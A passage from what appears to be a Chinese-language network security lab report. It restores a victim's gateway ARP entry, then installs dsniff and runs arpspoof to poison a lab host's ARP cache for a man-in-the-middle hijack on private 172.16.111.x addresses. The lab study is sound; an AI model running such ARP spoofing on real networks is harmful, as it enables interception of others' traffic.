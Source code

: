 此时在受害者主机上准备“刷新”网关 ARP 记录。

```python
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```

![](img/arpback_success.png)

## 实验三（可选）使用自动化工具完成 ARP 投毒劫持实验

使用kali-arpspoof工具进行中间人arp投毒:

```python
# 下载并安装arpspoof
sudo apt update && apt install -y dsniff ssldump
# 查看arpspoof使用手册
man arpspoof
# 劫持
sudo arpspoof -i eth0 -t 172.16.111.144<想要劫持的目标主机> 172.16.111.1<想要伪装成的主机ip>
```

下载并安装arpspoof

![](img/install_arpspoof.png)
